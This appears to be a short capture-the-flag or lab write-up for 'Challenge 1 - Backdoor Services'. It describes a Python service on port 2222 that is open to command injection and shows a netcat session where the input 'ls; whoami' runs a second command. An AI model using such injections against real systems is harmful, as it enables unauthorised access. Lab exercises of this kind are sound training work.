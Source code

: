 # Challenges

---

## Challenge 1 - Backdoor Services

### Python Vulnerability
This python script is vulnerable to command injection and runs on port 2222

You can exploit it by connecting using netcat
```
$ nc 192.168.232.131 2222
Enter a Command: ls; whoami
elliot
```

---
